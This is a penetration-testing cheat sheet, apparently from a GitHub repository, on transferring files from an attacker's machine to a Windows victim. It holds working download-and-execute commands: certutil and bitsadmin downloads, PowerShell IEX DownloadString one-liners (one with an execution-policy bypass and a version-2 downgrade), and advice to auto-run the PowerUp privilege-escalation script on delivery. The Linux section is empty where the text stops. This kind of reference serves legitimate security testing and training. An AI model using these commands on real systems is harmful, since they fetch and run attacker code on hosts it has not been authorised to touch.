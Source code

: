 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

To execute the payload upon delivery add the command you want Powershell to run at the end of the script.  A good example of this is using the PowerUp.ps1 privilege escalation script.  The command Invoke-AllChecks can be added to the end of the script so that it is ran as soon as it is collected from the attackers machine.  If you only want to download the script then execute later the `powershell Import-Module .\PowershellScript.ps1` command can be used.  This will then allow you to run the commands within the script manaully.

In Powershell version 3 and above, wget can be used to download a file:

`wget "http://<ip address>:<port>/FileToDownload.exe" -OutFile SomeOutputFileName.exe `

### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
